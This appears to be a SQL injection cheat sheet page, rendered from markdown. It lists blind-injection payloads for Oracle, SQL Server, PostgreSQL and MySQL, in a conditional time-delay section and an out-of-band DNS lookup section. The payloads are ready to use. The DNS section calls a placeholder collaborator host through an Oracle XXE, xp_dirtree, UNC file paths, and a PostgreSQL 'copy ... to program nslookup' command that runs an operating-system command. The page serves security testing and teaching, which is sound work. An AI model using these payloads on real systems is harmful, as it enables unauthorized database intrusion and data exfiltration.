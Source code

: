 Conditional time delays
-----------------------

You can test a single boolean condition and trigger a time delay if the condition is true.

<table>
<tr>
    <td><strong>Oracle</td>
    <td>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual </td>
</tr>
<tr>
    <td><strong>Microsoft</td>
    <td>IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'</td>
</tr>
<tr>
    <td><strong>PostgreSQL</td>
    <td>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END</td>
</tr>
<tr>
    <td><strong>MySQL</td>
    <td>SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')</td>
</tr>
</table>

DNS lookup
----------

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

<table>
<tr>
    <td><strong>Oracle</td>
    <td>The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence: <br>
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
<br>
The following technique works on fully patched Oracle installations, but requires elevated privileges:
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
 </td>
</tr>
<tr>
    <td><strong>Microsoft</td>
    <td>exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'</td>
</tr>
<tr>
    <td><strong>PostgreSQL</td>
    <td>copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'</td>
</tr>
<tr>
    <td><strong>MySQL</td>
    <td>The following techniques work on Windows only: <br>
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</td>
</tr>
</table>
